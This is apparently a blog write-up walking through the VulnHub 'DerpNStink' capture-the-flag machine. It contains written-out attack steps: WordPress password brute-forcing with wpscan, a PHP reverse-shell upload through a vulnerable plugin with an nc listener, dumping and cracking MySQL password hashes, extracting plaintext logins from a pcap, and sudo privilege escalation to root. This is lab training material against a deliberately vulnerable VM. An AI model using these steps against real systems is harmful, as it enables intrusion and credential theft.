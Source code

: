 ```yaml
---
title: "DerpNStink"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2021-05-06 04:57:39 +05:30
categories: [Writeups, VulnHub]
img_path: /assets/img/writeups/derpnstink/
tags: [VulnHub, WordPress, MySQL]
render_with_liquid: false
---
```


## DerpNStink VulnHub Walkthrough

### Recon & Enumeration

- `sudo netdiscover -i eth0 -r 10.0.2.0/24` 
- DerpNStink IP: `10.0.2.8` 

#### Nmap

- `nmap -Pn -sS -p- -A 10.0.2.8`

  ```
  10.0.2.8:21/tcp => vsftpd 3.0.2
  10.0.2.8:22/tcp => OpenSSH 6.6.1p1 
  10.0.2.8:80/tcp => Apache httpd 2.4.7 
  ```

- In HTML source code: 
```
flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166)
```

#### GoBuster

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.2.8 -t 60 -x txt
```

```
/weblog        (Status:301) [Size:304] [http://10.0.2.8/weblog/]
/php           (Status:301) [Size:301] [http://10.0.2.8/php/]   
/css           (Status:301) [Size:301] [http://10.0.2.8/css/]   
/js            (Status:301) [Size:300] [http://10.0.2.8/js/]    
/javascript    (Status:301) [Size:308] [http://10.0.2.8/javascript/]
/robots.txt    (Status:200) [Size:53]                                   
/temporary     (Status:301) [Size:307] [http://10.0.2.8/temporary/] 
/server-status (Status:403) [Size:288]
```
- `/weblog` redirected to `http://derpnstink.local/weblog`. So we will need to add it to the hosts file.
- `echo 10.0.2.8 derpnstink.local | tee -a /etc/hosts`
- Then visit `http://derpnstink.local/weblog`.
- Its a WordPress blog. 

---

### Exploitation

```
wpscan --url http://derpnstink.local/weblog -e at -e ap -e u
```

```
WordPress theme in use: twentysixteen
Location: http://derpnstink.local/weblog/wp-content/themes/twentysixteen/
Last Updated: 2021-03-09T00:00:00.000Z
Readme: http://derpnstink.local/weblog/wp-content/themes/twentysixteen/readme.txt
The version is out of date, the latest version is 2.4

Plugin(s) Identified:

slideshow-gallery
Location: http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/
Last Updated: 2019-07-12T13:09:00.000Z
The version is out of date, the latest version is 1.6.12
Found By: Urls In Homepage (Passive Detection)
Version: 1.4.6 (100% confidence)
Found By: Readme - Stable Tag (Aggressive Detection)
- http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt
Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
- http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt

User(s) Identified:
- admin
```

- We got a username: `admin`. Now to brute force for password:

```
wpscan --url http://derpnstink.local/weblog/ -U admin -P /usr/share/wordlists/rockyou.txt -t 60
```

```
Valid Combinations Found:
Username: admin, Password: admin
```

- Honestly, I should have just tried `admin:admin` before even running `wpscan` but, oh well.
- Go to `/weblog/wp-admin/` and log in with `admin` : `admin`
- Go to Slideshow, click on one of the available ones, in there, under Choose Image option, select a file to upload. Choose PHP reverse shell file (with IP and port changed to connect back to our Kali VM) and it will be accepted without even changing extension. 
- Or you can use this exploit to upload the shell since we already have user credentials: [WordPress Plugin Slideshow Gallery 1.4.6 - Arbitrary File Upload](https://www.exploit-db.com/exploits/34681).

```python
python wp_slideshow_exploit.py -t http://derpnstink.local/weblog -u admin -p admin -f php-shell.php
```

- Start a netcat listener: `nc -lvnp 1234`
- Then go back to Slideshow and click on the slideshow that has PHP reverse shell file and we will get a reverse shell as `www-data`. 
- `cd /var/www/html/weblog` and `ls -la` 
- We have read access to `wp-config.php` so `cat wp-config.php`

```
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');
```

- `mysql -u root -p` => `mysql` 
- `show databases;` 
- `use mysql;` 
- `show tables;` 
- `select * from user;` 
- DerpNStink MySQL Commands:

![DerpNStink MySQL Commands](derpnstink_mysql_commands.png){: w="300" h="400" }
_DerpNStink MySQL Commands_


- Dumping users & passwords from MySQL:

![Dumping Users & Passwords from MySQL](derpnstink_mysql_users_passwords.png){: w="600" h="400" }
_Dumping Users & Passwords from MySQL_

- And we get a few MySQL password hashes. Used [CrackStation](https://crackstation.net/) to crack them:

```
root = E74858DB86EBA20BC33D0AECAE8A8108C56B17FA = mysql
unclestinky = 9B776AFB479B31E8047026F1185E952DD1E530CB = wedgie57
phpmyadmin = 4ACFE3202A5FF5CF467898FC58AAB1D615029441 = admin
```

- Lets try `unclestinky : wedgie57` on user `stinky`. 
- `su stinky` => `wedgie57` and it works. 
- There is a `ftp` directory in `/stinky` and if we keep going in, there is a `key.txt` file which has `ssh` key for user `stinky` 

```
/home/stinky/ftp/files/ssh/ssh/ssh/ssh/ssh/ssh/ssh/key.txt
```

- But we can also get it from `/home/stinky/.ssh`
- `cd /home/stinky/.ssh` and start a python server with `python3 -m http.server 5959` and then get the `id_rsa` key from `derpnstink.local:5959/id_rsa` using a browser or via `wget`. 
- `chmod 600 id_rsa` and then log in via `ssh`: 
- `ssh -i id_rsa stinky@10.0.2.8` 
- `cd /home/stinky/Desktop && ls -la` 
- `cat flag.txt` 

```
flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)
```

- `cd /home/stinky/Documents && ls -la` there is a `derpissues.pcap` file. 
- `strings derpissues.pcap` to get the general idea of traffic recorded. 
- There are a few HTTP POST requests in there without SSL/TLS, thus, unencrypted. So we can start looking at them. Or we can `grep` for the username we already have: `mrderp`. I tried it both ways. 
- `strings derpissues.pcap | grep -n mrderp` 
- This gives 7 results but the first one itself reveals the password that was used while creating the account for `mrderp` and the second one reveals it again when it was used for logging in as `mrderp`. 

```
56710:action=createuser&_wpnonce_create-user=b250402af6&_wp_http_referer=%2Fweblog%2Fwp-admin%2Fuser-new.php&user_login=mrderp&email=mrderp%40derpnstink.local&first_name=mr&last_name=derp&url=%2Fhome%2Fmrderp&pass1=derpderpderpderpderpderpderp&pass1-text=derpderpderpderpderpderpderp&pass2=derpderpderpderpderpderpderp&pw_weak=on&role=administrator&createuser=Add+New+User
57149:log=mrderp&pwd=derpderpderpderpderpderpderp&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1
```

- The other method is to filter POST requests and to look for passwords in unencrypted/plain text parameters. 
- So to filter the `strings` results for just those POST requests: 
- `strings derpissues.pcap | grep POST` 
- It lists all the POST requests but we can filter out the others that we don't need and focus only on POST requests made to `/weblog/wp-login.php` 
- `strings derpissues.pcap | grep -A 20 "POST /weblog/wp-login.php"` 
- `grep -A 20` to print the next 20 lines that come after the expected result of `grep`. 
- Now there are only three such POST requests and the username and password payload being sent through them is in plain text. 

```
1: log=unclestinky%40derpnstink.local&pwd=wedgie57&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1c3
2: log=mrderp&pwd=derpderpderpderpderpderpderp&wp-submit=Log+In&redirect_to=http%3A%2F%2Fderpnstink.local%2Fweblog%2Fwp-admin%2F&testcookie=1
```

- We already have `stinky`'s or `unclestinky`'s password: `wedgie57` and now we also have `mrderp`'s password: `derpderpderpderpderpderpderp` 
- `su mrderp` => `derpderpderpderpderpderpderp` and we are now logged in as `mrderp`! 
- `mrderp` : `derpderpderpderpderpderpderp` 

---

### Privilege Escalation

- `sudo -l` => `derpderpderpderpderpderpderp`

```
User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```

- If you `cd /home/mrderp/Desktop/ && ls`, there is a `helpdesk.log` file which has a pastebin link inside: `https://pastebin.com/RzK9WfGw`. This pastebin also tells us the same thing that `sudo -l` says. 
- So back to privilege escalation, there is no `/home/mrderp/binaries/` directory so lets create one. 
- `cd /home/mrderp` and then `mkdir binaries && cd binaries` 
- Then create a bash script (any script/executable will work here) that we can execute with `sudo`. 
- `touch derpy.sh` 
- `echo /bin/bash > derpy.sh` 
- Then `chmod +x derpy.sh` and then execute it with: 
`sudo ./derpy.sh` and we are now `root`! 
- `whoami` => `root` 
- `cd /root/Desktop && ls -la` 
- `cat flag.txt` 

```
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!
Hit me up on twitter and let me know your thoughts!
@securekomodo
```

<!-- ### Possible Kernel Exploit

- `uname -a` 
```
Linux DeRPnStiNK 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
```
- Kernel exploit could be possible. Try kernel exploit later. 
 -->

